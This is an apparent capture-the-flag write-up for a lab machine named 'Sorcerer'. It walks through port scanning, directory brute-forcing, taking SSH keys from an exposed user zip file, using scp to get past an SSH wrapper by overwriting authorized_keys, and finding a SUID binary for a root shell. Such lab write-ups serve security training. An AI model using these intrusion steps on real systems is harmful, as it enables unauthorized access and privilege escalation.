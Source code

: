 # Sorcerer

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:52 +08
Nmap scan report for 192.168.168.100
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7742/tcp  open  msss
33603/tcp open  unknown
41637/tcp open  unknown
42193/tcp open  unknown
59253/tcp open  unknown
```

Did a detailed scan in case:

```
$ sudo nmap -p 80,111,2049,7742,33603,41637 -sC -sV --min-rate 5000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:55 +08
Nmap scan report for 192.168.168.100
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      41637/tcp   mountd
|   100005  1,2,3      52180/udp   mountd
|   100021  1,3,4      42193/tcp   nlockmgr
|   100021  1,3,4      58389/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs_acl 3 (RPC #100227)
7742/tcp  open  http    nginx
|_http-title: SORCERER
33603/tcp open  mountd  1-3 (RPC #100005)
41637/tcp open  mountd  1-3 (RPC #100005)
```

NFS and Port 7742 look the most promising.

### NFS Enumeration --> Dead End

I first enumerated NFS to see if there was anything to mount:

```
$ showmount -e 192.168.168.100 
Export list for 192.168.168.100:
```

There was nothing, so let's move on.

### Web Enumeration --> Zipfiles

Port 7742 just shows us a login page:

<figure><img src="../../../.gitbook/assets/image (3) (13).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` directory scan while I tested some weak default passwords. I found a few directories present:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.168.100:7742/ -t 100  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.168.100:7742/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/10 13:58:45 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/default/]
/zipfiles             (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/zipfiles/]
```

The `/zipfiles` directory looks the most interesting. Within it, there were zip files named after the users on the machine:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`max.zip` was the largest and hence the only one I downloaded. When unzipped, it contained all the files like his SSH key:

```
$ unzip max.zip       
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh
```

However, attempts to SSH in as `max` fail.

```
$ ssh -i home/max/.ssh/id_rsa max@192.168.168.100
PTY allocation request failed on channel 0
ACCESS DENIED
```

It seems that something is blocking us. When we read the `scp_wrapper.sh` file, we see that `ssh` is being blocked, but not `scp`:

```bash
$ cat scp_wrapper.sh 
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Since `scp` is allowed, we can transfer our public key into the `authorized_keys` folder:

```
$ scp -O -i id_rsa ~/.ssh/id_rsa.pub max@192.168.168.100:/home/max/.ssh/authorized_keys
id_rsa.pub                                                 100%  391     2.2KB/s   00:00
```

Afterwards. we can just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Root Shell

I did a search for SUID binaries on the machine:

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.nfs
/usr/sbin/start-stop-daemon
<TRUNCATED>
```

`start-stop-daemon` is an SUID binary, and it can spawn a `root` shell for us.&#x20;

![](<../../../.gitbook/assets/image (36).png>)
